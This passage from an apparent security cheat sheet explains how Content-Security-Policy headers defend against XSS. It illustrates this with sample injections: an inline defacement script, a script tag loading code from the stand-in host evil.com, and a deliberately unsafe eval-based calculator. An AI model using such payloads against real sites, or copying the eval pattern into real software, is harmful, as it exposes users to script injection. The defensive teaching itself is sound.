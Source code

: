 # Content Security Policy Cheat Sheet

## Introduction

This article brings forth a way to integrate the __defense in depth__ concept to the client-side of web applications. By injecting the Content-Security-Policy (CSP) headers from the server, the browser is aware and capable of protecting the user from dynamic calls that will load content into the page currently being visited.

## Context

The increase in XSS (Cross-Site Scripting), clickjacking, and cross-site leak vulnerabilities demands a more __defense in depth__ security approach.

### Defense against XSS

CSP defends against XSS attacks in the following ways:

#### 1. Restricting Inline Scripts

By preventing the page from executing inline scripts, attacks like injecting

```html
<script>document.body.innerHTML='defaced'</script>
```

 will not work.

#### 2. Restricting Remote Scripts

By preventing the page from loading scripts from arbitrary servers, attacks like injecting

```html
<script src="https://evil.com/hacked.js"></script>
```

will not work.

#### 3. Restricting Unsafe JavaScript

By preventing the page from executing text-to-JavaScript functions like `eval`, the website will be safe from vulnerabilities like the this:

```js
// A Simple Calculator
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`The sum is: ${sum}`);
```

#### 4. Restricting Form submissions

By restricting where HTML forms on your website can submit their data, injecting phishing forms won't work either.
